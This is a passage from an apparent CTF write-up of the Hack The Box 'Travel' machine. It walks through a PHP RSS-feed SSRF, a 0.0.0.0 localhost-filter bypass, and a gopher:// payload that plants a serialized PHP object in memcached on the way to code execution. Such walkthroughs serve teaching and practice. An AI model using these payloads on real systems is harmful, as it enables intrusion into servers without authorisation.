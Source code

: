 ## Getting RCE 
The next steps all revolve around these three files so reading them thoroughly is definitely recommended.
If we look at `rss_template.php` more closely we see what the mitigations mentioned in the `safe` function of `template.php` are for:
{: .text-justify}
```php
# From rss_template.php
SERVER['QUERY_STRING'];
        if(strpos($url, "custom_feed_url") !== false){	# Searches the URL for the first occurence of `custom_feed_url`
                $tmp = (explode("=", $url));    # break URL into two parts
                $url = end($tmp);               # set $url to the string after the '='
        } else {				# if no custom feed was specified use the following one:
                $url = "http://www.travel.htb/newsfeed/customfeed.xml";
         }
         $feed = get_feed($url);                # call get_feed rss
```
So reading the code, we can apparently specify a custom feed url. To test this we set up a local http server and try to access it browsing to `http://blog.travel.htb/awesome-rss/?custom_feed_url=http://IP:8000/` and we record a GET request:
{: .text-justify}
```bash
kali@kali:~$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.189 - - [01/AUG/2020 10:25:32] "GET / HTTP/1.1" 200 -
```
Therefore we have a server side request forgery (SSRF) vulnerability, lets see what we can request by looking at how the content is processed:
```php
function url_get_contents ($url) {
    $url = safe($url);
        $url = escapeshellarg($url);
        $pl = "curl ".$url;
        $output = shell_exec($pl);
    return $output;
}
# in short:
return shell_exec("curl ".escapeshellarg($url))
```
As this is a simple curl call and the input is sanitized via escapeshellarg, I was not able to use this to upload a shell. 
Looking further at the `safe` function from `temlpate.php` we see a comment `// this should be secure` hinting, that it's probably not secure. So where can we do something forbidden?
Playing around a little bit and searching the web [I found out](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery) that we can circumvent the localhost restriction using the IP `0.0.0.0`. What do we want to access on localhost? Well, looking at `rss_template.php` again, we see that there is a connection established to a memcached service via 
{: .text-justify}
```php
$simplepie->set_cache_location('memcache://127.0.0.1:11211/?timeout=60&prefix=xct_');
```
Searching now for `memcached SSRF` I found the tool [Gopherus](https://github.com/tarunkant/Gopherus) which came in handy to create payloads. Following through the steps, choosing the default payload and changing the IP from `127.0.0.1` to `0.0.0.0` results in the following string, which we enter as the custom feed url:
{: .text-justify}
```bash
gopher://0.0.0.0:11211/_%0d%0aset%20SpyD3r%204%200%2016%0d%0aO:5:%22Hello%22:0:%7B%7D%0d%0a
```
To find out whether this worked or not, the `debug.php` mentioned in `rss_template.php` proofed to be useful. We find it browsing to `http://blog.travel.htb/wp-content/themes/twentytwenty/debug.php` - the path mentioned earlier in the README.md file - showing a table with truncated data after refreshing `http://blog.travel.htb/awesome-rss/`.